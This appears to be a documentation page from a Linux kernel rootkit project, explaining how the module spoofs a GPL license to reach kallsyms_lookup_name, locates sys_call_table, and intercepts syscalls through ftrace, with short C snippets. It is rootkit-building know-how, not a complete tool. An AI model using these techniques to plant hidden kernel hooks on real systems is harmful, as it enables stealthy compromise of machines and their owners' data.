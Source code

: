 ```yaml
---
title: "Symbol Resolution & Ftrace Hooks"
description: "How we locate sys_call_table and intercept syscalls via ftrace"
icon: "code"
date: "2025-05-11T18:20:00+01:00"
lastmod: "2025-05-11T18:20:00+01:00"
draft: false
toc: true
weight: 59
---
```


# Symbol Resolution

1. We spoof a GPL license so the kernel exports `kallsyms_lookup_name()`:
   ```c
   MODULE_LICENSE("GPL");
   ```
2. At init, we call:
   ```c
   sys_call_table = (void **)kallsyms_lookup_name("sys_call_table");
   ```
   This gives us the address of the syscall table.

---

# Ftrace-Based Hooking

{{< alert context="info" text="We use ftrace to hook without writing to kernel memory directly." />}}

For each target syscall:

1. Define an `ftrace_ops` with flags:
   ```c
   .func  = hook_trampoline,
   .flags = FTRACE_OPS_FL_SAVE_REGS |
            FTRACE_OPS_FL_IPMODIFY
   ```
2. Apply the filter:
   ```c
   ftrace_set_filter_ip(&ops, (unsigned long)orig_syscall, 0, 0);
   register_ftrace_function(&ops);
   ```
3. Our trampoline copies registers, calls `hook_fn()`, then jumps back to the original.


Always unregister your ftrace functions in `cleanup_module()`:
```c
unregister_ftrace_function(&ops);
```


---

## Code Location

- `rootkit/hook/ftrace_hooks.c`  
- `rootkit/hook/syscall_list.h`
```
